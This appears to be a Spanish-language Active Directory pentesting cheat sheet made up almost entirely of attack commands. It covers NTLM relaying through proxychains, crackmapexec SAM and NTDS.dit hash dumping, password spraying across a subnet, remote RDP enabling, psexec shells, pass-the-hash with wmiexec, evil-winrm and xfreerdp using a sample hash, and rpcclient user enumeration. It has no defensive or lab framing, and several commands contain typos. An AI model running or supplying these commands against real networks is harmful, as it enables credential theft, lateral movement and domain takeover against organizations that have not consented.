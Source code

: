 ```
```
/etc/proxyhains.conf
Socks4 127.0.0.1 1080
```
<br>

Se aprovecha el relaying para tunelizar la comunicación y hacer un relaying de las credenciales.
Al tener un relaying de un usuario con privilegios, podemos usar proxychains junto con crackmapexec con usuario, contraseña inventada y dominio para obtener un pwned:<br>
```proxychains cme smb [IPvictima] -u 'UserName' -p 'nada' -d 'dominio.local' 2>/dev/null  ```<br><br>

### Dumpear la sam: <br>
```proxychains cme smb [IPvictima] -u 'UserName' -p 'nada' -d 'dominio.local' --sam 2>/dev/null ```<br>

Conexión con credenciales validas <br>
### Conectarse a un DC y obtener una cmd <br>
```psexec.py dominio.local/Administrador:Password@IP cmd.exe ```<br><br>

### PasswordSprying: Ver todos los equipos que podemos conectarnos <br>
```cme smb 192.168.1.0/24 -u ‘user’ -p ‘password’ ```<br>
```crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords ```<br>
```crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes ```<br><br>
  
  
### Habilitar el RPD <br>
```crackmapexec smb 192.168.1.0/24 -u ‘user’ -p ‘password’ -M rdp -o action=enable ```<br><br>
  
  
### Dumpear el NTDS para obtener todos los hashes: <br>
El archivo NTDS. dit es una base de datos que almacena datos de Active Directory, incluida información sobre objetos de usuario, grupos y pertenencia a grupos. Incluye los hashes NTLM de las contraseñas para todos los usuarios y equipos. SOLO APLICA AL DC<br>
```crackmapexec smb [IPtargetDC] -u ‘user’ -p ‘password’ --ntds vss ```<br><br>
  
  
### PassTheHash <br>
Como ejemplo, tenemos el hash "Administrador: 500: aad3b435b51404eeaad3b435b51404ee: 2b576acbe6bcfda7294d6bd18041b8fe::".<br><br>

wmiexec.py -hashes '000000000000000000000000000000000:2b576acbe6bcfda7294d6bd18041b8fe' administrador@192.168.1.161<br>
evil-winrm -u Administrador -H '2b576acbe6bcfda7294d6bd18041b8fe' -i 192.168.1.161 <br>
crackmapexec smb <target(s)> -u username -H 2b576acbe6bcfda7294d6bd18041b8fe <br><br>

```wmiexec.py dominio.local/usuario@IP -hashes [hashNTLM] ```<br>
```crackmapexec smb <target(s)> -u username -H NTHASH ```<br><br>

XfreeRDP: Para un ataque más centrado en la GUI, puede usar Xfreerdp para obtener acceso RDP a un punto final.<br>

```xfreerdp /u:Administrador /pth:2b576acbe6bcfda7294d6bd18041b8fe /v:192.168.1.161``` <br><br>
  

## Enumeración:
  
### RPC 135 137 139 
Sin credenciales<br>
```rpcclient -U "" [IP] -N -c 'enumdomusers' | grep -oP ‘\[.*?\]’ | grep -v ‘0x’ | tr -d ‘[]’ > users.tx```<br>
Con credenciales<br>

```
rpclient -U "dominio.local\username%password" IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users.txt 
```
<br>
  
```